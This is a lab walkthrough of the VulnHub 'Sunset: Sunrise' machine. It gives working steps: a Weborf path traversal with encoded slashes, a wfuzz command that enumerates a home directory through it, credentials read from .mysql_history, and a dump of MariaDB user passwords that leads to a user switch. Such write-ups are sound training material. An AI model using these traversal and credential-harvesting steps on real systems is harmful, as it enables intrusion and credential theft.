 # Sunset: Sunrise

https://www.vulnhub.com/entry/sunset-sunrise,406/

## Reconnaisance

A quick nmap over all ports only revealed 22, 80, 3306 and 8080 open. No FTP this time.

Port 80 is hosting some sort of default nginx file, while 8080 seems to be hosting the var/www folder using something called Weborf/0.12.2. It showed html/ and when I clicked through, it contained `index.nginx-debian.html` that showed the same content as port 80.

Looking up Weborf with that version, it is vulnerable to path traversal when using encoding slashes, and testing this proved I could navigate throughout the machine.

## Exploring and wfuzz

I browsed around the machine, but couldn't find anything. I could reach the weborf home directory, but couldn't see anything in there. Following a hint, I decided to use wfuzz on it.

The path to show the directory was `http://192.168.53.7:8080/..%2f..%2fhome%2fweborf%2f`, and a useful wordlist for local user directory fuzzing is `/usr/share/wordlists/dirb/common.txt` on kali.

The following wfuzz command found several files: `wfuzz -w /usr/share/wordlists/dirb/common.txt --sc 200 http://192.168.53.7:8080/..%2f..%2fhome%2fweborf%2fFUZZ`:

```
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://192.168.53.7:8080/..%2f..%2fhome%2fweborf%2fFUZZ
Total requests: 4614

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                          
===================================================================

000000001:   200        2 L      18 W     439 Ch      ""                                                                                                                               
000000003:   200        113 L    483 W    3526 Ch     ".bashrc"                                                                                                                        
000000016:   200        2 L      8 W      83 Ch       ".mysql_history"                                                                                                                 
000000019:   200        27 L     130 W    807 Ch      ".profile"                                                                                                                       

Total time: 13.47158
Processed Requests: 4614
Filtered Requests: 4610
Requests/sec.: 342.4987
```

Opening .mysql_history revealed:

```
show databases;
ALTER USER 'weborf'@'localhost' IDENTIFIED BY 'iheartrainbows44'; 
```

While I couldn't remote connect with mysql using the above, it did work for ssh.

## Mysql and sunrise

Once in as weborb, I looked around. Couldn't sudo -l, and my already thorough exploration told me little else was around. However, the entry above from the history table told me that while weborf couldn't connect to sql remotely, it could locally.

`mysql -p` plus the same password `iheartrainbows44` got me in to mysql, and I selected from the users table:

```
MariaDB [(none)]> select user, password from mysql.user;
+---------+-------------------------------------------+
| user    | password                                  |
+---------+-------------------------------------------+
| root    | *C7B6683EEB8FF8329D8390574FAA04DD04B87C58 |
| sunrise | thefutureissobrightigottawearshades       |
| weborf  | *A76018C6BB42E371FD7B71D2EC6447AE6E37DB28 |
+---------+-------------------------------------------+
3 rows in set (0.000 sec)

MariaDB [(none)]>
```

I was able to use the above password to `su sunrise`.
